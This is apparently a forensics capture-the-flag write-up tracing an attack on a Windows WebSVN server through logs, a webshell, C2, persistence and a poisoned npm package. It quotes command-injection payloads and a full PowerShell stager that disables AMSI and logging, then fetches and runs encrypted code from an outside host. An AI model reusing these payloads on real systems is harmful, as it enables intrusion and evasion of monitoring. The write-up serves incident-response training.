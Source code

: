 # Webserver logs

There are interesting queries in the webserver access logs. This is one of the early signs of the attack, giving the start of the timeframe where other events should be looked upon. There are signs of attacking the WebSVN server.

[c:\inetpub\logs\LogFiles\W3SVC1\u_ex220725.log](workdir/u_ex220725.log)

```log
2022-07-25 13:10:12 192.168.248.140 GET /listing.php repname=work&template=calm 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work&template=Elegant 200 0 0 231
2022-07-25 13:10:22 192.168.248.140 GET /search.php repname=work&search=%22%26flag%7Bdef_1_7e7b364a9671dc7eb51415d302474689%7D%26 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work&template=calm 500 0 0 255
2022-07-25 13:10:43 192.168.248.140 GET /search.php repname=work&search=%22%26ping+127.0.0.1+-n+6+%3E+nul%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work&template=calm 500 0 0 5357
2022-07-25 13:10:58 192.168.248.140 GET / - 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 - 302 0 0 66

```

![](screenshots/1.png)

The flag is there urlencoded.

# Flag WebProbe
`flag{def_1_7e7b364a9671dc7eb51415d302474689}`

# Webshell

There are also traces in the logs that a `YD2kb6.ZiP.B64` file was uploaded then decoded  (`c:\php\YD2kb6.ZiP.B64` -> `YD2kb6.ZiP` -> `YD2kb6.php`). The php file contains the flag encoded.

```log
2022-07-25 13:23:01 192.168.248.140 GET /search.php repname=work&search=%22%26echo+UEsDBBQAAgAIALB6%2BVRrlN1P6QQAAPQNAAAKAAAAWUQya2I2LnBocLVX%2B0%2FcOBD%2BV0K1Wie6dLsPSoGQBemoVHRXQIWKK9wqysMhEdkkip1Cu%2BR%2Fv%2FErrwtd7odDgtifx988PJ4xR8d5lGt%2B4hKiXUU4STZ5EX93KdZGbhAUdlomiVVDeVbQHpSRHkAYSw8LMPGLOKdZQXLs225RuD%2F0qb0UA5THOUYmKpBhzvrgI4DzAdBo2L0yDHFhz6bz3Qb0E5za02aOiyIr7NBNCLby0ktiXwvL1KdxlmqO42cpoUXpU527bXJPjc2IRjF5u%2BSR4AuWRHgguJBVKRU1XYApBibYLkY4sIEbW3Gog5I4z4h%2B%2BenSubgy0c3Z%2BWKOjB1bWPb8PCBwfr1F4PTi5qoRqa2Gk6lXld3icJC%2FDib4CSOrwrCjZaeIT1VgWhapVuNDTrp4naXxT8z8xE8xlXvByR0l5ABOKIFj81OaOGFWPMDBbbhSDQT1UR4H9kmzqhvG0bQlwNaXU6WAB7G2jUEDdhFMaZzeEzDrhJ%2B5U2B2ToDpU8M6gXWHxmvsJPE6phwq1y55YKMBL8t1ro8Cl7rsNOFjQ%2FwZY%2BL6WEdHkIvjhFrIFDLWgMySydy3ZLAfZRofDygssBvoIyDA7tocpe4amzK%2FjQ2PGFdwEnblpIRh93NAZH03cC9ofixiivuqhedcsfeDYgKae3Jc4nWKOcOQz4%2F6KE7zkpqjrKT8Gwv1GfsYm8coTrDyXSoQAZDbpLhYUcEYjyUgLVbcWcs17ltzX%2BzmxsBuLsiwq%2BvTs3NU%2B8ZKy2%2FskOErk8Oq5ForYazq3656W30dhYS6cJnYXykKaUXgotli6Q6xCVpZv7A8bll%2B8fUa1aFgpqt4tqDldDxWJ9yG7U5IjzuzwzZlrWDoWDiv0QnfW1tmA%2FesnlWVNI2hHaM48GtzmIjBtmxLE2nP6%2FKja%2BDwKffaSVGmejuxVD8Yj3cU0hTPOixN4YKgZP4DpnDZ2CDLWZo1nchs9SCT9bU04x9ISHMBVYwpFgTGRtxShxU9LwGMVUG5aIoLa43yIvMxgavNBk5bG%2B8WZu1Fu4dDh4RWTEzW5%2FkfoVdyGRuo5tj1I12IaS7R%2BOgFi9iSsqcasSwvic3NuQc5MW%2FIraYICU%2FeXF38%2FsfH60PxgtEi0AYNPeWta0e7PDs91DaS9Q6eEAFaVX%2BnbwwryDbblYFbIc6amBobDzx4sOomJVa5n3ezlfH8vFPrgkxIwUG0qjfJuknkGwix%2FETqeaP8qcnUaL4y4NHDfAZZHnKEn3ycUzmFU0zLteNHbnqPA0fpOKmDnbAEVLrvhFZgrwHB3UYk%2F8qUGTXEXxf9XkSGhFkb71esP8%2FOv%2F6FOB6nTi8GPWObi8JKaDdQ05WJRApAr5XF2qo6rCqOW3hbYkIDo%2Fv45QuqFQwTz15HPOsSs9LcJm4COFTX%2F8c46d2uUycdq5GdplOTe%2F8lWoP0s1fSb4uZ6hmqtvKXh2G9WIBCP8kIFjh%2F8sHFV5C685USkneeq2HvNnSUL9HEcwne23UC7GcBvPBu10%2FR7YI%2B3N7chp%2BT%2Ffff1t%2BmyJhE%2BGnuxamOFtPFAfy%2BBwwOq8DfdVQt9oIPM3%2Ffw%2BEimC5mMPO9D97BAcigo3egRDwTQV%2BBYQL%2FVdkpfhQFTkezg%2Flktrc%2Fme%2FuT2aLBTJ34Yf1jQiOnXUfq0yhwoL9kaGI3gkm7Xj5D1BLAQIUABQAAgAIALB6%2BVRrlN1P6QQAAPQNAAAKAAAAAAAAAAEAIAAAAAAAAABZRDJrYjYucGhwUEsFBgAAAAABAAEAOAAAABEFAAAAAA%3D%3D%3Ec%3A%5Cphp%5CYD2kb6.ZiP.B64%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 0 1328
2022-07-25 13:30:05 192.168.248.140 GET /search.php repname=work&search=%7C%22%26cd+%5CpHp%26cERtUtIl+-dEcOdE+YD2kb6.ZiP.B64+YD2kb6.ZiP%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 0 892
2022-07-25 13:34:48 192.168.248.140 GET /search.php repname=work&search=%7C%22%26cd+%5CpHp%26TaR+-xf+YD2kb6.ZiP%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 0 673
2022-07-25 13:37:04 192.168.248.140 GET /search.php repname=work&search=%7C%22%26cd+%5CpHp%26pHp+YD2kb6.PHp%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 258 100452
```

The part of the decoded php with flag.

```php
echo base64_decode('ZmxhZ3tkZWZfMl85YmY0').hex2bin('30393035').strrev('}36d71c8bef3d0316d7cb7b99');
```

# Flag WebShell
`flag{def_2_9bf4090599b7bc7d6130d3feb8c17d63}`

# Privesc

Looking malicious artifacts around/after `2022-07-25 13:10:22`.

The `c:\Users\Public\` is a common place to drop payloads. There were 2 new files created based on the search: `defender.bat` and `dusmapi.dll`.

The former is turning off the antivirus, the latter is a binary that can be used for privesc, with the flag.

![](screenshots/2.png)

# Flag Privesc
`flag{def_3_38adb16bf4985ab3dd135d236c804941}`

# C2

There are suspicious event logs around the other events, (`7/25/2022 16:38:24`). Running `powershell -noP -sta -w 1 -enc <base64str>`.

![](screenshots/3.png)

The decoded command.

```powershell
If($PSVersionTable.PSVersion.Major -ge 3){$Ref=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');$Ref.GetField('amsiInitFailed','NonPublic,Static').Setvalue($Null,$true);[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0);};[System.Net.ServicePointManager]::Expect100Continue=0;$wc=New-Object System.Net.WebClient;$u='flag{def_4_dd0711788d0095025fe4afedffbe7331}';$ser=$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMgA0ADgALgAxADMAMwA6ADgAMAA4ADAA')));$t='/admin/get.php';$wc.Headers.Add('User-Agent',$u);$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;$Script:Proxy = $wc.Proxy;$K=[System.Text.Encoding]::ASCII.GetBytes('lrmY^e_.E24qXpy[|?uAdwg,V6SOvK%T');$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Count])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor$S[($S[$I]+$S[$H])%256]}};$wc.Headers.Add("Cookie","gxPIiBUKLYy=saJGQPWUCg8AReQwuq94LZ0mWQ0=");$data=$wc.DownloadData($ser+$t);$iv=$data[0..3];$data=$data[4..$data.length];-join[Char[]](& $R $data ($IV+$K))|IEX 
```

While the first thing the script does is to turn off scriptblock logging, there were leftovers. This event log was not deleted like System either. The script is downloading encrypted data from the `http://192.168.248[.]133:8080/admin/get.php` C2 server. `$u` contains the flag in the code.

# Flag C2#1
`flag{def_4_dd0711788d0095025fe4afedffbe7331}`

# Autoruns
Checking [Autoruns](https://learn.microsoft.com/hu-hu/sysinternals/downloads/autoruns) reveals the `\Updater` scheduled task.

![](screenshots/4.png)

Checking the descriptor `c:\Windows\System32\Tasks\Updater` reveals the next command. The creation time also shows that it is relevant. The registry key is similar to the other C2 script, starting it from [SAM](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-hives) hive.

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2022-07-25T16:53:20</Date>
    <Author>WORKGROUP\WIN-G59KIL646VK$</Author>
    <URI>\Updater</URI>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2022-07-25T09:00:00</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Settings>
  ....
  <Actions Context="Author">
    <Exec>
      <Command>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Command>
      <Arguments>-NonI -W hidden -c "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKLM:SAM flag{def_5_3e02c5f1767a16cfc6bb89ddde54a8bd}).flag{def_5_3e02c5f1767a16cfc6bb89ddde54a8bd})))"</Arguments>
    </Exec>
  </Actions>
  ...
</Task> 

```

![](screenshots/5.png)

# Flag C2#2
`flag{def_5_3e02c5f1767a16cfc6bb89ddde54a8bd}`

# SVN
There are multiple signs that this is a development machine (svn, nodejs).

Based on the `c:\Users\Administrator\npm-deps\README.txt`, the dependencies are stored there.

```
These are dependencies that we use for our builds.
```

The dependencies are on github (see `.github` folder). Installing git can clone a fresh variant and copying over the files can check the modifications easily.

For example `Express JS 4.18.1 / 2022-04-29`. <https://github.com/expressjs/express/commit/d854c43ea177d1faeea56189249fff8c24a764bd>

There is an extra file in the express (Express.js) directory.

```
c:\Users\Administrator\npm-deps\express\lib\router\http.js
```

![](screenshots/6.png)

Upon closer look, this is am obfuscated, out of place file.

![](screenshots/7.png)

Quick analysis reveals it is dropping the flag in the user directory (`userHomeDir`, `flag6.txt`, `flag{def_6...`)

Can be checked with [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) during runtime. The flag is under `c:\Users\Administrator\flag6.txt`.

![](screenshots/8.png)

# Flag Poison
`flag{def_6_2faeee9ac1871c8f17c55c2050cf2899}`